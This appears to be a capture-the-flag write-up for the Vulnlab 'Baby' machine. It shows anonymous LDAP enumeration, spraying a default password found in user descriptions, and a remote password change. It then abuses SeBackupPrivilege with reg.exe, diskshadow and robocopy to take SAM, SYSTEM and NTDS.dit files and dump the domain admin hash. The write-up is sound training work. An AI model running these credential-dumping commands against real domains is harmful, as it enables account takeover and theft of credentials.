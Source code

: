 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Baby/logo.png
date: 2024-06-21 09:45:47 +07:00
modified: 2024-06-21 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: XCT
  link: https://app.hackthebox.com/users/13569
tags: [Nmap, SMB, LDAP, SeBackupPrivilege, Diskshadow, Secretsdump, Brute Force, Password Change, Shadow Copy, Robocopy, smbpasswd]

title: Baby - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Baby is an &quot;easy&quot; difficulty machine, Where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize SeBackupPrivilege to extract sensitive files and employ various tools to achieve privilege escalation and capture the root flag.

### Difficulty:

`Easy`


# Enumeration
The Nmap scan shows the following ports.

```bash
PORT      STATE SERVICE       VERSION         
53/tcp    open  domain        Simple DNS Plus 
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-21 13:49:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC     
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds?       
464/tcp   open  kpasswd5?           
3389/tcp  open  ms-wbt-server Microsoft Terminal Services  
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2024-06-20T13:28:17       
|_Not valid after:  2024-12-20T13:28:17       
|_ssl-date: 2024-06-21T13:51:05+00:00; -2s from scanner time.             
| rdp-ntlm-info:  
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY       
|   NetBIOS_Computer_Name: BABYDC   
|   DNS_Domain_Name: baby.vl        
|   DNS_Computer_Name: BabyDC.baby.vl         
|   Product_Version: 10.0.20348     
|_  System_Time: 2024-06-21T13:50:25+00:00
```

Next, I check SMB shares with an anonymous login but no luck. I moved to ldap where I was able to list the users in the domain.

`netexec ldap 10.10.95.186 -u '' -p '' --user`

![](https://photos.squarezero.dev/file/abir-images/Baby/0.png)

After that, I checked the user's description and got the default passwords for new users.

`netexec ldap 10.10.95.186 -u '' -p '' --user -M get-desc-users`

![](https://photos.squarezero.dev/file/abir-images/Baby/1.png)

### Password_MUST_Change

I used the default password against Teresa and it didn't work. So I have collected all the users and bruteforce using the default password.

![](https://photos.squarezero.dev/file/abir-images/Baby/2.png)

As seen in the result when trying to login using the default password Caroline needs to change her password. I can change the password remotely using SMBPASSWD. And with the new password, I logged into the machine and got the user flag.

`smbpasswd -r 10.10.95.186 -U caroline.robinson`

![](https://photos.squarezero.dev/file/abir-images/Baby/3.png)

![](https://photos.squarezero.dev/file/abir-images/Baby/4.png)

### SeBackupPrivilege

I checked the permissions and SeBackupPrivilege was enabled.

![](https://photos.squarezero.dev/file/abir-images/Baby/5.png)

With this permission, I copied SAM and SYSTEM files.

`reg.exe save hklm\sam C:\Users\Caroline.Robinson\Desktop\sam.save`
`reg.exe save hklm\system C:\Users\Caroline.Robinson\Desktop\system.save`

![](https://photos.squarezero.dev/file/abir-images/Baby/6.png)

After transferring the files to my machine I used Secrectsdump to get the administrator's password.

![](https://photos.squarezero.dev/file/abir-images/Baby/7.png)

But when I couldn't login using that administrator hash as it's for local admin.

![](https://photos.squarezero.dev/file/abir-images/Baby/8.png)

To get the root flag I need to get the administrator of DC. For that I need NTDS.dit alongside SAM and SYSTEM.
I used diskshadow.exe to create a Shadow copy of the C drive. At first, I created a script which has all the commands needed to create a backup using Diskshadow.

```
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias coldfx#
creates
expose %coldfx% z:#
```

After that, I ran the script with Diskshadow which created the shadow drive of C. 

![](https://photos.squarezero.dev/file/abir-images/Baby/9.png)

Now using Robocopy I can transfer NTDS.dit.
`robocopy /B z:\Windows\NTDS .\ntds ntds.dit`

![](https://photos.squarezero.dev/file/abir-images/Baby/10.png)

Now I used Secrectsdump again to dump the hash of Domain Administrator and got root.txt

![](https://photos.squarezero.dev/file/abir-images/Baby/11.png)

![](https://photos.squarezero.dev/file/abir-images/Baby/12.png)

### Bonus

**LDAP Enumeration Alternative**
Using Ldapsearch for enumeration
`ldapsearch -H ldap://10.10.92.79 -D '' -w '' -b "DC=baby,DC=vl"`

**SeBackupPrivillege Alternative**
If the Sebackupprivillege was disabled this can be used to read the flag without needing to login to administrator.

[SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\root.txt' .\root.txt
```

![](https://photos.squarezero.dev/file/abir-images/Baby/13.png)







